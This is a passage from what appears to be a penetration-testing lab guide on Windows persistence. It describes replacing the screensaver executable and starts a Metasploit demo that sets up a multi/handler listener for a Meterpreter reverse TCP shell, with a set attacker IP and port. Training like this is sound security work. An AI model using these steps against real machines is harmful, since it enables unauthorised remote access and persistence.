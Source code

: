 - **MITRE technique: [Event Triggered Execution: Screensaver](https://attack.mitre.org/techniques/T1546/002/)**
  - This technique allows the pentester to replace the executable that is used to display the screensaver with a malicious executable or payload. 

These are just some examples of persistence techniques in Windows; and this isn't a comprehensive list.
	
	
#### Windows Persistence Demo

To demonstrate persistence using malicious services, we will use `msfvenom` to generate a Meterpreter payload, transport it to the Windows machine, and register a service using it. 

- This will require an active shell as SYSTEM on the Windows10 machine. Note: The first six steps listed detail how to open a Meterpreter shell on the Windows10 machine if you do not have an active session already.

1. Log in to Kali and open a terminal. Start Metasploit with the following command:

     - `msfconsole`
	 
    **Note**: If you already have Metasploit open and running, kill any jobs that may be running in the background with `jobs -K`.

2. Load the `multi/handler` module with the following command:

	 - `use exploit/multi/handler`
	
3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`

     ![A screenshot depicts the results of these commands.](Images/runmulti.PNG)	
